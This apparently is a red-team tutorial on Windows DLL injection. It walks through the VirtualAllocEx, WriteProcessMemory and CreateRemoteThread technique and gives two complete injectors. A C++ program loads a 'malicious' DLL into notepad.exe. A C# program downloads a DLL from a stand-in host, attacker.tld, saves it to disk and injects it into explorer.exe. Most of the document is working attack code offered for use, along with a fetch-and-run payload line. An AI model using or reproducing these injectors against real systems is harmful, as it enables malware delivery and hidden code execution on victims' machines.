


DLL injection is a technique used for running code within the address space of another process by forcing it to load a dynamic-link library.

It is similar concept to payload injection, but instead to inject the shellcode we are going to inject the dll module on the disk. **The dll should be stored on the filesystem**, the dropper can implment a download from a server or simply write it to disk manually.

In this technique we are going to create a empty buffer on the target proccess with `VirtualAllocEx` but instead of allocate the payload it will allocate the path of our dll with `WriteProcessMemory`. The reason to store the dll on a disk is because the process needs to use the system loader to initialize it properly.

With `LoadLibraryA` we can load the library on the remote process. To do that we just need to create a remote thread in the target process which calls `LoadLibraryA` with our dllpath as an argument.

If `kernel32.dll` is loaded on the loader we can use `GetProcAddress` to get `LoadLibraryA` address.

```cpp
int main(int argc, char *argv[]) {
    
    HANDLE pHandle;
    PVOID remBuf;
    PTHREAD_START_ROUTINE pLoadLibrary = NULL;
    char dllname[] = "C:\\Tools\\rtnotes\\rtnotes.dll";
    char target[] = "notepad.exe";
    int pid = 0;
    
    
    pid = FindProcess(target);
    if ( pid == 0) {
        printf("Target NOT FOUND! Exiting.\n");
        return -1;
    }

    printf("Target PID: [ %d ]\nInjecting...", pid);

    pLoadLibrary = (PTHREAD_START_ROUTINE) GetProcAddress( GetModuleHandle("Kernel32.dll"), "LoadLibraryA");

    pHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)(pid));

    if (pHandle != NULL) {
        remBuf = VirtualAllocEx(pHandle, NULL, sizeof(dllname), MEM_COMMIT, PAGE_READWRITE); 
    
        WriteProcessMemory(pHandle, remBuf, (LPVOID) dllname, sizeof(dllname), NULL);

        CreateRemoteThread(pHandle, NULL, 0, pLoadLibrary, remBuf, 0, NULL);
        printf("done!\nremBuf addr = %p\n", remBuf);

        CloseHandle(pHandle); 
    }
    else {
        printf("OpenProcess failed! Exiting.\n");
        return -1;
    }
    return 0
}
```

Here we can see how the payload is executed.



The `rtnotes.dll` malicious dll was successfully loaded on the remote process `notepad.exe`.




# DLL Injection with C# (.NET)

There are several restrictions.

First, we need to write a DLL in C or C++ and must be unmanaged. We cannot load a managed DLL into an unmanaged process.

Secondly, DLLs normally contains APIs that are called after the DLL is loaded. To call these APIs, an application would first have to resolve their names to memory addresses using GetProcAddress. Since GetProcAddress cannot resolve an API in a remote process, we must craft our malicious DLL in a non-standard way.

In this example instead of the dll be in disk we are going to download it via HTTP and save it on disk.

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Net;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Reflection;


namespace dll_injection
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule,string lpProcName);
        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(String lpModuleName);

        static int Main(string[] args)
        {
            //Download dll
            String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
            string dll_name = dir + "\\benjugat.dll";
            WebClient wc = new WebClient();
            wc.DownloadFile("http://attacker.tld/benjugat.dll", dll_name);
            

            Process[] processes = Process.GetProcessesByName("explorer");
            if (processes.Length <= 0)
            {
                return -1;
            }
            IntPtr hProc = OpenProcess(0x001F0FFF, false, processes[0].Id);
            IntPtr addr = VirtualAllocEx(hProc, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            IntPtr pLoadLibrary = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

            IntPtr outSize = IntPtr.Zero;
            WriteProcessMemory(hProc, addr, Encoding.Default.GetBytes(dll_name), dll_name.Length, out outSize);
            IntPtr hThread = CreateRemoteThread(hProc, IntPtr.Zero, 0, pLoadLibrary, addr, 0, IntPtr.Zero);
            return 0;
        }
    }
}
```